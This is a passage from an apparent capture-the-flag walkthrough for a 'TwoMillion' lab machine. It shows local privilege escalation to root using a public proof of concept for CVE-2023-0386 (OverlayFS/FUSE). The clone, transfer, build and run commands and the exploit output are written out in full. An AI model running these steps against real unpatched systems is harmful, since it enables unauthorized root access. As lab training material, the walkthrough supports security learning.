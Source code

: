 This email hints at OverlayFS/FUSE vulnerabilities. Researching this we can find that **CVE-2023-0386** could be a good fit.

![[Pasted image 20250917130349.png]]
#### Exploitation

We can find a Proof of Concept exploit for **CVE-2023-0386** at [https://github.com/puckiestyle/CVE-2023-0386](https://github.com/puckiestyle/CVE-2023-0386).

We can download the exploit to our machine via git

```bash
(wxlbr@htb)-[~]$ git clone https://github.com/puckiestyle/CVE-2023-0386
```

![[Pasted image 20250917135944.png]]

Then we can transfer it over to our target machine via the ssh session using SCP. Be sure to check everything moves over correctly. 

```bash
(wxlbr@htb)-[~]$ scp -r ./CVE-2023-0386/ admin@10.129.241.225:/tmp/
```

![[Pasted image 20250917135900.png]]

Now use `make all` to build the exploit on the target, some warnings may appear however those can be ignored for now

```bash
(admin@2million)-[~]$ make all
```

![[Pasted image 20250917140005.png]]

Now open two terminals connected to the server, in one run the following and leave it running in the background.

```bash
(admin@2million)-[~]$ ./fuse ./ovlcap/lower ./gc   # run in background
```

![[Pasted image 20250917140051.png]]

Then open the other terminal on the server and run the following. This should give some output, look out for the `exploit success!` line to show that it has worked. Then you will notice we are returned to the terminal but we are now the root user.

```bash
(admin@2million)-[~]$ ./exp                        # run in second terminal
uid:1000 gid:1000
[+] mount success
total 8
drwxrwxr-x 1 root   root     4096 sep 17 13:01 .
drwxr-xr-x 6 root   root     4096 sep 17 13:05 ..
-rwsrwxrwx 1 nobody nogroup 16096 Jan  1  1970 file
[+] exploit success!
To run a comand as administrator (user "root"), use "sudo <command>".
See "man sudo root" for details.
```

![[Pasted image 20250917140659.png]]

We can then navigate to `/root/` to find the root flag.

**Congratulations, you have completed lab `TwoMillion`!**